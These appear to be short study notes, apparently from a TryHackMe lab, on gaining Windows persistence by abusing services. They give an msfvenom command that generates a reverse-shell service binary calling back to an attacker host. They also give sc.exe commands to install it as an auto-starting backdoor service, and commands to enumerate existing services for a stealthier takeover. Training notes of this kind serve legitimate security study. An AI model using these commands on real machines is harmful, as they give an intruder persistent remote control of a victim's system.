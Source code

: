 # Windows Persistence - Abusing Services

Windows services offer a great way to establish persistence since they can be configured to run in the background whenever the victim machine is started. If we can leverage any service to run something for us, we can regain control of the victim machine each time it is started.

## Creating backdoor services

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$ATTACKER_IP LPORT=$LPORT -f exe-service -o rev-svc.exe
```

```powershell
sc.exe create <servicename> binPath= "C:\Windows\rev-svc.exe" start= auto
sc.exe start <servicename>
```

## Modifying Existing services

More stealthy as service creation may be monitored across network.

```powershell
sc.exe query state=all
sc.exe qc $target-service
```


## References

[THM Windows Persistence Room](https://tryhackme.com/room/windowslocalpersistence)